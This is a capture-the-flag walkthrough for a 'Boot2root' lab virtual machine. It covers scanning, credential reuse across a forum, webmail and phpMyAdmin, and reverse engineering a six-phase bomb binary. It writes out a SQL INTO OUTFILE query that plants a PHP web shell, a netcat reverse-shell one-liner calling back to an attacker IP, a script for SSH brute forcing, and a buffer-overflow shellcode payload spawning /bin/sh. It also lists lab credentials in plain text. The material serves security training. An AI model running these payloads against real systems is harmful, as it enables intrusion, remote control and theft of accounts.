



# Boot2root

### Scan Nmap

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-13 09:31 UTC
Nmap scan report for 192.168.56.101
Host is up (0.00028s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hack me if you can
|_http-server-header: Apache/2.2.22 (Ubuntu)
143/tcp open  imap       Dovecot imapd
|_imap-capabilities: more capabilities IDLE IMAP4rev1 STARTTLS LOGINDISABLEDA0001 have post-login listed OK SASL-IR LOGIN-REFERRALS LITERAL+ ID Pre-login ENABLE
|_ssl-date: 2025-02-13T09:32:31+00:00; -1s from scanner time.
443/tcp open  ssl/http   Apache httpd 2.2.22
|_ssl-date: 2025-02-13T09:32:31+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=BornToSec
| Not valid before: 2015-10-08T00:19:46
|_Not valid after:  2025-10-05T00:19:46
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: 404 Not Found
993/tcp open  ssl/imaps?
|_ssl-date: 2025-02-13T09:32:31+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=2/13%OT=21%CT=1%CU=38008%PV=Y%DS=2%DC=T%G=Y%TM=67ADBC3
OS:0%P=x86_64-unknown-linux-gnu)SEQ(SP=11%GCD=FA00%ISR=9C%TI=I%CI=I%TS=U)OP
OS:S(O1=MFFC8%O2=MFFC8%O3=MFFC8%O4=MFFC8%O5=MFFC8%O6=MFFC8)WIN(W1=FFFF%W2=F
OS:FFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFFF)ECN(R=Y%DF=N%T=40%W=FFFF%O=MFFC8%CC=
OS:N%Q=)T1(R=Y%DF=N%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=N%T=
OS:FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=40%W=FFFF%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)T6(R=Y%DF=N%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=
OS:FF%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N) 
```

### Scan Dirbuster

```
Dir found: /cgi-bin/ - 403
Dir found: /forum/ - 200
Dir found: /icons/ - 403
Dir found: /phpmyadmin/ - 200
File found: /forum/index.php - 200
Dir found: /forum/themes/ - 200
Dir found: /forum/themes/default/ - 200
Dir found: /forum/themes/default/images/ - 200
Dir found: /forum/js/ - 200
File found: /forum/js/main.min.js - 200
File found: /phpmyadmin/url.php - 200
File found: /phpmyadmin/Documentation.html - 200
Dir found: /webmail/ - 302
```

### Forum

#### Index


#### Problem login --> author lmezard


#### Password ??? --> ```!q\]Ej?*5K5cy*AJ```

#### Connected
```
Pseudo: lmezard
Password: !q\]Ej?*5K5cy*AJ
```


#### Get email

```
Dir found: /webmail/
Email: laurie@borntosec.net
Password: !q\]Ej?*5K5cy*AJ
```


#### DB access


#### Connected on phpmyadmin with root user !


#### Send request sql on `/var/www/forum/template_c/`
```sql
SELECT '<?php system($_GET["payload"]); ?>' INTO OUTFILE "/var/www/forum/templates_c/exploit.php"
```


#### Testing vulnerability


#### Exploit with reverse shell 
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.56.1 9999 >/tmp/f

URL encode: rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.56.1%209999%20%3E%2Ftmp%2Ff

https://192.168.56.101:443/forum/templates_c/exploit.php?payload=

https://192.168.56.101:443/forum/templates_c/exploit.php?payload=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.56.1%209999%20%3E%2Ftmp%2Ff

```

```
Listen with nc: 

nc -lnvp 9999
```

#### SHELL access !!!


#### ls -lra /home


#### LOOKATME file --> get password for lmezard shell


#### Get interactive shell with python
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
Login: lmezard
Password: G!@M6f4Eatau{sF"
```


### New challenge very fun for get laurie password


#### Files are not real pcap

```
[amnesia@archlinux ~/Downloads/fun/ft_fun]$ file CMZGN.pcap
CMZGN.pcap: ASCII text
```


#### After analyzing the files manually


#### In the files we find this

```C
char getme8() {
	return 'w';
}
char getme9() {
	return 'n';
}
char getme10() {
	return 'a';
}
char getme11() {
	return 'g';
}
char getme12()
{
	return 'e';
}
```

So we have the end of the password

#### Here's a script to create a word list with all possibilities

```python
end = "wnage"
other = "aIetrph"
f = open("hashed.txt", "a")

import hashlib

from itertools import chain, product
def bruteforce(charset, maxlength):
    return (''.join(candidate)
        for candidate in chain.from_iterable(product(charset, repeat=i)
        for i in range(1, maxlength + 1)))

def double_letters(word: str):
    for i in word:
        if word.count(i) != 1:
            return True
    return False

for i in list(bruteforce('aIetrph', 7)):
    if len(i) == 7 and double_letters(i) == False:
        m = i+end
        hash = hashlib.sha256(m.encode('utf-8')).hexdigest()
        print(m+" : "+hash)
        
        f.write(hash+"\n")
```

#### Once the wordlist is created, we can bruteforce the password in ssh

Tool: https://github.com/calc1f4r/SSH-Bruteforcer



#### After 15 coffees 


```
Pseudo: laurie
Password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

#### We are connected in ssh with laurie


### New challenge (reverse engineering)


#### Here's the main in assembler using the objdump command

We can see that the executable is a bomb that we need to deactivate in 6 phases.

```asm
main:
    push   ebp
    mov    ebp,esp
    sub    esp,0x14
    push   ebx
    mov    eax,DWORD PTR [ebp+0x8]
    mov    ebx,DWORD PTR [ebp+0xc]
    cmp    eax,0x1
    jne    main+0x20
    mov    eax,ds:0x804b648
    mov    ds:0x804b664,eax
    jmp    main+0x80
    mov    esi,esi
    cmp    eax,0x2
    jne    main+0x60
    add    esp,0xfffffff8
    push   0x8049620
    mov    eax,DWORD PTR [ebx+0x4]
    push   eax
    call   fopen@plt
    mov    ds:0x804b664,eax
    add    esp,0x10
    test   eax,eax
    jne    main+0x80
    add    esp,0xfffffffc
    mov    eax,DWORD PTR [ebx+0x4]
    push   eax
    mov    eax,DWORD PTR [ebx]
    push   eax
    push   0x8049622
    call   printf@plt
    add    esp,0xfffffff4
    push   0x8
    call   exit@plt
    add    esp,0xfffffff8
    mov    eax,DWORD PTR [ebx]
    push   eax
    push   0x804963f
    call   printf@plt
    add    esp,0xfffffff4
    push   0x8
    call   exit@plt
    lea    esi,[esi+0x0]
    call   initialize_bomb
    add    esp,0xfffffff4
    push   0x8049660
    call   printf@plt
    add    esp,0xfffffff4
    push   0x80496a0
    call   printf@plt
    add    esp,0x20
    call   read_line
    add    esp,0xfffffff4
    push   eax
    call   phase_1
    call   phase_defused
    add    esp,0xfffffff4
    push   0x80496e0
    call   printf@plt
    add    esp,0x20
    call   read_line
    add    esp,0xfffffff4
    push   eax
    call   phase_2
    call   phase_defused
    add    esp,0xfffffff4
    push   0x8049720
    call   printf@plt
    add    esp,0x20
    call   read_line
    add    esp,0xfffffff4
    push   eax
    call   phase_3
    call   phase_defused
    add    esp,0xfffffff4
    push   0x804973f
    call   printf@plt
    add    esp,0x20
    call   read_line
    add    esp,0xfffffff4
    push   eax
    call   phase_4
    call   phase_defused
    add    esp,0xfffffff4
    push   0x8049760
    call   printf@plt
    add    esp,0x20
    call   read_line
    add    esp,0xfffffff4
    push   eax
    call   phase_5
    call   phase_defused
    add    esp,0xfffffff4
    push   0x80497a0
    call   printf@plt
    add    esp,0x20
    call   read_line
    add    esp,0xfffffff4
    push   eax
    call   phase_6
    call   phase_defused
    xor    eax,eax
    mov    ebx,DWORD PTR [ebp-0x18]
    mov    esp,ebp
    pop    ebp
    ret
    nop
    nop
    nop
```

#### We'll use ghidra

Ghidra: https://ghidra-sre.org/

Phase 1 


```
Phase 1 password: Public speaking is very easy.
```

Phase 2

Function read_six_numbers
```c
void read_six_numbers(char *param_1,int param_2)
{
  int iVar1;
  
  iVar1 = sscanf(param_1,"%d %d %d %d %d %d",param_2,param_2 + 4,param_2 + 8,param_2 + 0xc,
                 param_2 + 0x10,param_2 + 0x14);
  if (iVar1 < 6) {
    explode_bomb();
  }
  return;
}
```
```
Phase 2 password: 1 2 6 24 120 720
```

Phase 3
```C
void phase_3(char *param_1)

{
  int iVar1;
  char cVar2;
  uint local_10;
  char local_9;
  int local_8;
  
  iVar1 = sscanf(param_1,"%d %c %d",&local_10,&local_9,&local_8);
  if (iVar1 < 3) {
    explode_bomb();
  }
  switch(local_10) {
  case 0:
    cVar2 = 'q';
    if (local_8 != 0x309) {
      explode_bomb();
    }
    break;
  case 1:
    cVar2 = 'b';
    if (local_8 != 0xd6) {
      explode_bomb();
    }
    break;
  case 2:
    cVar2 = 'b';
    if (local_8 != 0x2f3) {
      explode_bomb();
    }
    break;
  case 3:
    cVar2 = 'k';
    if (local_8 != 0xfb) {
      explode_bomb();
    }
    break;
  case 4:
    cVar2 = 'o';
    if (local_8 != 0xa0) {
      explode_bomb();
    }
    break;
  case 5:
    cVar2 = 't';
    if (local_8 != 0x1ca) {
      explode_bomb();
    }
    break;
  case 6:
    cVar2 = 'v';
    if (local_8 != 0x30c) {
      explode_bomb();
    }
    break;
  case 7:
    cVar2 = 'b';
    if (local_8 != 0x20c) {
      explode_bomb();
    }
    break;
  default:
    cVar2 = 'x';
    explode_bomb();
  }
  if (cVar2 != local_9) {
    explode_bomb();
  }
  return;
}
```
```
Phase 3 password: 1 b 214
```

Phase 4

```
Phase 4 password: 9
```

Phase 5

```
Phase 5 password: opekmq
```

Phase 6
```C
void phase_6(undefined4 param_1)

{
  int *piVar1;
  int iVar2;
  int *piVar3;
  int iVar4;
  undefined1 *local_38;
  int *local_34 [6];
  int local_1c [6];
  
  local_38 = node1;
  read_six_numbers(param_1,local_1c);
  iVar4 = 0;
  do {
    iVar2 = iVar4;
    if (5 < local_1c[iVar4] - 1U) {
      explode_bomb();
    }
    while (iVar2 = iVar2 + 1, iVar2 < 6) {
      if (local_1c[iVar4] == local_1c[iVar2]) {
        explode_bomb();
      }
    }
    iVar4 = iVar4 + 1;
  } while (iVar4 < 6);
  iVar4 = 0;
  do {
    iVar2 = 1;
    piVar3 = (int *)local_38;
    if (1 < local_1c[iVar4]) {
      do {
        piVar3 = (int *)piVar3[2];
        iVar2 = iVar2 + 1;
      } while (iVar2 < local_1c[iVar4]);
    }
    local_34[iVar4] = piVar3;
    iVar4 = iVar4 + 1;
  } while (iVar4 < 6);
  iVar4 = 1;
  piVar3 = local_34[0];
  do {
    piVar1 = local_34[iVar4];
    piVar3[2] = (int)piVar1;
    iVar4 = iVar4 + 1;
    piVar3 = piVar1;
  } while (iVar4 < 6);
  piVar1[2] = 0;
  iVar4 = 0;
  do {
    if (*local_34[0] < *(int *)local_34[0][2]) {
      explode_bomb();
    }
    local_34[0] = (int *)local_34[0][2];
    iVar4 = iVar4 + 1;
  } while (iVar4 < 5);
  return;
}
```

```
Phase 6 password: 4 2 6 3 1 5
```

```
Login: thor
Password: Publicspeakingisveryeasy.126241207201b2149opekmq426315
```

### New challenge

Script for zaz password

```python
import turtle
import re

t = turtle.Turtle()
t.speed(5)

with open('turtle.txt', 'r') as file:
    for i in file:
        if "Avance" in i:
            num = int(re.search(r'\d+', i).group())
            t.forward(num)
        elif "Recule" in i:
            num = int(re.search(r'\d+', i).group())
            t.backward(num)
        elif "Tourne droite" in i:
            num = int(re.search(r'\d+', i).group())
            t.right(num)
        elif "Tourne gauche" in i:
            num = int(re.search(r'\d+', i).group())
            t.left(num)
            


import hashlib
print(hashlib.md5(b"SLASH").hexdigest())
```

### Last challenge

Payload:
```bash 
./exploit_me `perl -e 'print "\x90"x95 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\x50\xf6\xff\xbf"'` 
```